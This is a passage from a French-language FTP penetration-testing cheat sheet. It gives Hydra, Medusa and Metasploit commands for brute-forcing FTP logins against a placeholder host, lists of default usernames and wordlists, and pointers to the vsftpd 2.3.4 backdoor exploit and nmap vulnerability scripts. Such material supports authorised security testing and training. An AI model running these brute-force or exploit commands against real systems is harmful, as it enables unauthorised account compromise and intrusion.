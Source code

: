 ### Brute Force FTP
```bash
# 1. Hydra - Outil principal
hydra -L users.txt -P passwords.txt target.com ftp

# 2. Avec utilisateur connu
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com ftp

# 3. Métasploit
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS target.com
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

# 4. Medusa (alternative)
medusa -h target.com -U users.txt -P passwords.txt -M ftp
```

### Utilisateurs Communs à Tester
```bash
# Comptes par défaut
admin, administrator, root, ftp, ftpuser

# Comptes de service  
backup, web, www, apache, nginx

# Comptes génériques
user, guest, test, demo

# Wordlists recommandées
/usr/share/seclists/Usernames/top-usernames-shortlist.txt
/usr/share/wordlists/metasploit/unix_users.txt
```

## 🔐 Phase 4 : Analyse des Vulnérabilités

### Vulnérabilités par Version
```bash
# 1. vsftpd 2.3.4 - Backdoor
use exploit/unix/ftp/vsftpd_234_backdoor

# 2. ProFTPD vulnérabilités
# Recherche par version
searchsploit ProFTPD 1.3.5

# 3. Scripts Nmap pour vulns
nmap --script ftp-vuln-cve2010-4221 target.com -p 21
```
